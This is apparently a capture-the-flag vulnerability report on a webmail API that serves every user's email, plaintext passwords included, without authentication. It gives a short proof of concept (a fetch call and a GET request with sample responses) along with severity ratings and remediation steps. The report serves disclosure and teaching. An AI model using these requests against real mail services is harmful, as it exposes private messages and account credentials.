



# Description

Missing Access Control (CWE-306 / CWE-639) in the TrackBox webmail API (`API.py:101-139`). The endpoint exposes email contents without enforcing authentication or mailbox-level authorisation. Additional manual validation on the challenge instance confirmed unauthenticated access.

The V.R.C welcome system includes plaintext login credentials in welcome emails. The reported vulnerability therefore exposes sensitive authentication information. Additional manual validation confirmed the compromise of the test account named `admin` on the main V.R.C application.

# Exploitation

| Step | Observation | Result |
|------|-------------|--------|
| 1 | Authentication controls evaluated. | Unauthenticated access confirmed. |
| 2 | Mailbox isolation evaluated. | Cross-account data exposure confirmed. |
| 3 | Exposed email contents reviewed. | Sensitive authentication information disclosed. |
| 4 | Account security impact evaluated. | Test account compromise confirmed on the main V.R.C application. |

# PoC

**1. Unauthorised disclosure of mailbox contents:**

```javascript
fetch('/api/emails', {credentials:'include'}).then(r=>r.json()).then(console.log)
// {"count":28,"emails":[...all users...],"status":"success"}
```



**2. Exposure of sensitive authentication information:**

```http
GET /api/emails?user=admin HTTP/1.1
Host: webmail.<TARGET>
Cookie: Id=<any_valid_session>

{"count":1,"emails":[{"content":"...Password: X#9kLm$P2v@nQ8w!ZjRe...","destination":"admin@tbox.traced"}]}
```



**3. Confirmed account compromise on the main V.R.C application:**



Additional manual validation confirmed unauthenticated access and cross-account mailbox exposure. All tests were performed on the WOCShAck#5 challenge instance.

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Unauthorised disclosure of private email contents and sensitive authentication information. |
| Integrity | Account compromise confirmed during manual validation on the challenge instance. |
| Availability | Potential impact following account compromise; no direct service disruption demonstrated. |

Overall severity: **Critical (business impact)** — unauthorised disclosure of sensitive mailbox contents and demonstrated account compromise.

# Remediation

1. **Require authentication and enforce mailbox-level authorisation** for every email access operation.
2. **Stop emailing plaintext passwords** — use short-lived, single-use account setup links.
3. **Rotate all exposed credentials** and invalidate exposed activation tokens.
4. **Audit every webmail object endpoint** for missing authentication and ownership checks.
5. **Add regression tests** covering anonymous access and cross-account mailbox isolation.

# Author
CPE LYON
